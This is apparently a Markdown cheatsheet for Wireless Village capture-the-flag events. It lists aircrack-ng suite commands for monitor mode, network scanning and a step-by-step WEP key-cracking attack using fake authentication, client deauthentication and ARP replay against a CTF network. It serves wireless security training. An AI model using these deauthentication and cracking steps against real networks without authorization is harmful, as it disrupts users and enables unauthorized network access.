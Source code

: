 # Always Be Collecting
This cheatsheet is largely for the RF Hacker's Sanctuary [Wireless Village](https://rfhackers.com/wireless-village) Capture The Flag events.

Be familiar with the operating environment. New users should [install_pentoo](https://www.pentoo.ch/download/).

Read the `man` page(s)!

## Setup
Check the wireless interface(s) and start monitoring mode.
```
$ airmon-ng
$ airmon-ng start wlan0
```

Verify that [injection tests](https://www.aircrack-ng.org/doku.php?id=injection_test) work.
```
$ aireplay-ng -9 -e CTF_01 wlan0mon
```

## Reconnaissance
Find surrounding networks, access points and clients.
```code
$ airodump-ng wlan0mon
```

Begin collection on target channel, BSSID and recording to file.
```code
$ airodump-ng wlan0mon -c 36 --band a --bssid E0:05:C5:60:2E:65 --ivs -w capture
```
  - `-c` Select channel number
  - `-w` Write to file
  - `--bssid` MAC address of access point
  - `--ivs` Save only captured IVs (optional)
  - `--band` Select the wireless band. 'b' and 'g' uses 2.4GHz and 'a' uses 5GHz.

## Scenarios
There are different scenarios in which the target network may be configured. These may be access points with or without a client, a client looking for an access point, or a compromising an access point via a client. The next section contains some of those known scenarios with procedures.

### WEP with connected client
This scenario is generally straight forward. Use a `while true` loop for deauthenticating client if necessary.

  1) Monitor and capture the target network traffic.
```code
$ airodump-ng wlan0mon -c 6 -e CTF_01 --ivs -w capture
```
  2) Run the fake authentication attack to associate with the target access point.
```code
$ aireplay-ng -1 100 -o 1 -q 10 -e CTF_01 wlan0mon
```
  3) Force the connected client to deauthenticate.
```code
$ aireplay-ng -0 3 -e CTF_01 -c client_mac wlan0mon
```
  4) Speed things up with an ARP request replay attack against the target access point.
```code
$ aireplay-ng -3 -e CTF_01 wlan0mon
```
  5) Run `aircrack-ng` to obtain the WEP key.
